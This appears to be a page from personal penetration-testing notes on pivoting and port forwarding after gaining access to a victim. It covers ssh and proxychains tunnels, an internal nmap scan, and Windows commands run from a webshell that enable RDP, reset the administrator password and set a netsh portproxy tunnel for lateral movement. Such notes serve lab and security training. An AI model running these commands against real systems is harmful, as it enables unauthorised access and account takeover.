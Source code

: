 # Forwarding

Port forwarding can be useful if you get on to a victim and they are running a service locally that you want to interact with back on the attack machine. Or if the victim is connected to a network the attacker cannot access directly, proxychains in this case would allow the attacker to use the victim to attack the rest of the network


## ssh

![Pasted image 20220807173120](https://github.com/dbissell6/Shadow_Stone/assets/50979196/0868e1b6-51dd-443b-8adc-e7b5a0b44764)

<img width="587" alt="Screen Shot 2022-10-02 at 7 14 03 PM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/790e1b77-fde9-4761-ae00-e3cda178ff00">

## Example with ssh and proxy chains
This example assumes attacker reached a victim that has access to networks the attacker had not previously had access to.

## proxychains
make sure config is set up

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/12574f68-19d3-4858-824f-b589face8588)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/1fe6b9e9-7206-4351-898c-1927972db6a1)


```
proxychains nmap -sV -sC -Pn -v -A --reason 172.16.8.3 2>&1 | grep -v -E 'socket error|timeout|Strict'
```

### Using Firefox
Settings-> proxy

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/8e5ae2e6-6dcc-4110-ae32-be7936c977f4)

## chisel


## without ssh on windows

without ssh 
First, from the webshell, set the registry key so we can log in

```Powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

dont know any creds on the box so let’s just change the local admin’s pass, from the webshell

```Powershell
net user administrator newpass
```

now, from the linux attack host, log into a very limited cmd shell on WEB-WIN01 to setup a tunnel, where WEB-WIN01 is also the 10.X.X.X ip address of the webshell

```bash
xfreerdp /v:<WEB-WIN01> /u:administrator /p:newpass /cert:ignore
```

in the new RDP cmd window, after using `nslookup` to discover MS01 is `172.16.6.50` , make a tunnel with the `netsh` command which links WEB01’s 10.X.X.X reachable address on port 1515 to MS01’s RDP port 3389, like this:

```cmd
netsh interface portproxy add v4tov4 listenport=1515 listenaddress=<WEB-WIN01> connectport=3389 connectaddress=172.16.6.50
```

RDP into MS01 from our attack host through the tunnel we just made to MS01 on WEB-WIN01 port 1515:

```bash
xfreerdp /v:<WEB-WIN01>:1515 /u:svc_XXX /p:XXckX7 /cert:ignore
```
